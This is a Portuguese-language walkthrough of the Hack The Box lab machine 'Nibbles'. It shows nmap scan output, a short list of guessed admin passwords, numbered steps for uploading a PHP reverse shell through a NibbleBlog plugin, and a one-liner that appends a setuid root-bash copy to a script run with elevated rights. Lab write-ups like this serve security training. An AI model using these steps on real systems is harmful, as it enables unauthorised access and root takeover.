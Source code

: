 ```yaml
---
title:     "Hack The Box - Nibbles"
tags: [linux,easy]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/1.jpg)

## Enumeration

Iniciamos o processo de enumeracao...

```
# Nmap 7.80 scan initiated Mon Jul 13 18:51:10 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/HTB-Linux/nibbles/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /root/HTB-Linux/nibbles/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.13s latency).
Scanned at 2020-07-13 18:51:11 EDT for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 13 18:51:26 2020 -- 1 IP address (1 host up) scanned in 15.55 seconds
```

Encontro duas portas abertas.... 80 e 22

Acessando o server apache na porta 80 encontro uma simples msg...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/2.jpg)

Olhando o source encontro um comentario que nos leva a uma applicacao `Nibblesblog`

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/3.jpg)

Accessando a aplicacao e pesquisando sobre ela, encontro duas exploracoes... se for a versao 3 existe multiplos `sqli` se for a 4 eu preciso de um usuario e senha para explorar.

entao, verifiquei logo se era possovel sqli mas depois de verificar, vi que nao era... entao, restava obter uma login valido..

tentei, varias WORDLISTS mas sem sucesso... a aplicacao sempre me bloqueava depois de algumas tentativas...

Resolvi entao, fazer manualmente algo do tipoo

```
admin:admin
admin:123456
admin:nibbles
admin:12345678                       --->>> LEMBRE-SE DE TENTAR O MAXIMO DE SENHAS (empresa@2020, nomedamaquina, UPPER, lower e etc.. AS pessoas costumam usar senhas faceis)
admin:password
admin:Passw0rd
admin:passw0rd!
```

na terceira tentativa eu consigo o acesso que precisava com o `admin:nibbles` , agora usanso a exploracao para a versao 4 de acordo com esse site, obtenho rapidamente uma reverse shell..

## Reverse Shell

***reference*** https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html


1 - acesse http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
2 -  em seguida, localize em seu kali um shell em php `locate php-reverse`
3 -  edite com seu ip e a porta desejada.
4 - ative o listen  na porta escolhida 
5 - faca o uplload da reverse shell
6 - e acesse sua reverse nesse link..  http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/4.jpg)

agora que temos nossa shell vamos escalar nossos privilegios

## Privilege Escalation

Usando algums tools para agilizaar o processo de PE encontro algo interessante, 

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/5.jpg)

entao, depois de extrair tenho acesso ao arquivo `monitor.sh`

adicionei uma nova linha nesse arquivo com o seguinte comando

`echo "cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash" >> monitor.sh`

logo em seguida executei

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/7.jpg)

navego entao ate o `\tmp` dou permissao de execucao ao nosso `rootbash` usando o seguinte comando `chmod +x rootbash`

e entao depois de ter feito isso, eh so executar `rootbash -p`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/8.jpg)




